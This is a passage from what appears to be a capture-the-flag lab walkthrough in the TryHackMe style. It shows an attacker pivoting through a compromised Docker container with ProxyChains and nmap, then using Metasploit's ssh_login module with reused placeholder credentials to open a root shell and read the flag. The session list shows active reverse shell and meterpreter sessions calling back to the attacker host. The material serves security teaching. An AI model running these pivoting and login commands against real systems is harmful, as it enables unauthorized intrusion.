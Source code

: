 … etc …

# From the attacker’s host machine, we can use ProxyChains to scan the compromised host machine for common ports
$ proxychains -q nmap -n -sT -Pn -p 22,80,443,5432 172.17.0.1
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-24 08:48 EDT
Nmap scan report for 172.17.0.1
Host is up (0.069s latency).

PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
443/tcp  closed https
5432/tcp closed postgresql

Nmap done: 1 IP address (1 host up) scanned in 0.31 seconds

        

With the host scanned, we can see that port 22 is open on the host machine. It also is possible that Santa has re-used his password, and it’s possible to SSH into the host machine from the Docker container to grab the flag:
Metasploit Console Commands

           
msf6 auxiliary(server/socks_proxy) > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > run ssh://santa_username_here:santa_password_here@172.17.0.1

[*] 172.17.0.1:22 - Starting bruteforce
[+] 172.17.0.1:22 - Success: 'santa_username_here:santa_password_here' 'uid=0(root) gid=0(root) groups=0(root) Linux hostname 4.15.0-156-generic #163-Ubuntu SMP Thu Aug 19 23:31:58 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 4 opened (10.11.8.17-10.10.152.194:55634 -> 172.17.0.1:22) at 2022-11-22 02:49:43 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ssh/ssh_login) > sessions

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  1         shell cmd/unix                                   10.11.8.17:4444 -> 10.10.152.194:44140 (10.10.152.194)
  2         meterpreter x86/linux  www-data @ 172.28.101.50  10.11.8.17:4433 -> 10.10.152.194:33312 (172.28.101.50)
  3         shell linux            SSH kali @                10.11.8.17-10.10.152.194:55632 -> 172.17.0.1:22 (172.17.0.1)

msf6 auxiliary(scanner/ssh/ssh_login) > sessions -i -1
[*] Starting interaction with 3...

mesg: ttyname failed: Inappropriate ioctl for device
ls /root
root.txt
cat /root/root.txt
THM{...}

        

Answer the questions below
